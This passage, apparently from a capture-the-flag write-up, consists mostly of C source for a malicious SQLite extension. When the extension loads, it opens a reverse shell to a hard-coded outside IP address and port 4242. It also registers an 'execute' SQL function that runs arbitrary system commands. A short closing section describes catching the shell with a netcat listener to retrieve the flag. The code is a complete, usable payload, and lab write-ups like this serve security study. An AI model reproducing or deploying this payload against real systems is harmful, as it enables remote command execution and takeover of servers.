 ```c
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdlib.h>
#ifdef _WIN32
__declspec(dllexport)
#endif
static void systemExec(
sqlite3_context *context,
int argc,
sqlite3_value **argv
){
const unsigned char * cmd = sqlite3_value_text(argv[0]);
int ret = system((const char *)cmd);
}
int sqlite3_extension_init(
sqlite3 *db,
char **pzErrMsg,
const sqlite3_api_routines *pApi
){
int port = 4242;
struct sockaddr_in revsockaddr;
int sockt = socket(AF_INET, SOCK_STREAM, 0);
revsockaddr.sin_family = AF_INET;
revsockaddr.sin_port = htons(port);
revsockaddr.sin_addr.s_addr = inet_addr("59.92.213.3");
connect(sockt, (struct sockaddr *) &revsockaddr,
sizeof(revsockaddr));
dup2(sockt, 0);
dup2(sockt, 1);
dup2(sockt, 2);
char * const argv[] = {"/bin/sh", NULL};
execve("/bin/sh", argv, NULL);
SQLITE_EXTENSION_INIT2(pApi);
int rc = sqlite3_create_function(db, "execute", 1, SQLITE_UTF8 | SQLITE_INNOCUOUS, 0, systemExec, 0, 0);
// subsequent calls need to return OK since this will be used in injections and we can't really control how many times its going to be loaded
return SQLITE_OK;
}
```

After uploading the file and having a netcat listener at `4242`. we loaded the file and successfully received a shell and got the flag:

![](/assets/img/htb/magicinformer/TheMagicInformer-6.png)


Note: I found out later after the event that there exists a `.shell` command in sqlite which could be directly used instead of having to go through all the troubles of getting a reverse shell, etc. xD

